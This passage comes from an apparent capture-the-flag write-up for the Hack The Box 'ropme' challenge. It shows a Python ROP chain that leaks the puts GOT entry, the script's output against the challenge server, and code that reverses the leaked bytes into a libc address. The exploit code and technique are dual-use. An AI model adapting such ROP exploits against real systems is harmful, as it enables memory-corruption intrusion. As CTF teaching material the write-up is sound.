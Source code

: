 ```Python
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

remote(payload)
```

This is the output we see when we run the script:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
server responded:
�F�~N

9046d87e4e7f0a
```

The unreadable characters are obviously not important, what we care about is the hex representation of the response which we see in the last line.
Notice how `9046d87e4e7f0a` doesn't really look like an address... **but** let's take a look at it for a second.

The last byte is `0a` which is a new line which makes sense because `puts` appends a new line character to the end of the string when it prints it out. OK, what about the next byte? `7f` that does look like a start of an address, so maybe it's just that the order of the bytes is reversed, let's modify the code a little bit:

```Python
def remote(data):
    # ....
    ans = conn.recv(1024)
    print "server responded:"
    print ans

    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "0x" + binascii.hexlify(ans)
```

Now we see:


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me